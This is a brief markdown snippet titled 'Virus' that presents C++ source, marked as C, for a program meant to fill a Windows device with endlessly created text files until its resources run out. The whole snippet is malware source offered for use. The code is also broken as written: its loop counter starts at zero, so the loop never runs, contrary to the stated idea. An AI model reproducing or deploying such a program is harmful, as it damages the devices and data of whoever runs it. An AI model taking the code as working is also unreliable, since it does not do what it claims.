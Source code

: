 # Virus
Idea &rarr; Duplicate a file on the device infinitely, and this consumes the device's resources to the maximum.
```c
#include <bits/stdc++.h>
#include <direct.h>
using namespace std;

int main() {

    long long indexFile = 0;
    char const* path = "C:\\Diphro\\";
    _mkdir(path);

    while (indexFile) {
        indexFile++;
        ofstream file (path + to_string(indexFile) +".txt");
    }
}
```
